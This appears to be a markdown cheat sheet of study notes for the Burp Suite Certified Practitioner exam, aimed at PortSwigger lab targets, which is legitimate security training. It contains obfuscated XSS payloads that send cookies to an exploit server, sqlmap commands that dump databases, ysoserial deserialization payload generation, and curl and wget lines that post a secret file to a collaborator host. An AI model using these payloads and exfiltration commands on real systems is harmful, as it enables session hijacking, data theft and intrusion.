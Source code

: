 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
- [Notes template](https://www.y-security.de/news-en/looking-at-the-portswigger-burp-suite-certification/index.html)
# More extensions
Quick detection - Scan Manual insertion point https://portswigger.net/bappstore/ca7ee4e746b54514a0ca5059329e926f
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# XSS
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
```html
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0ab600a70433f087809c020301d4004f%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
```

# SQLi
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump


# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net

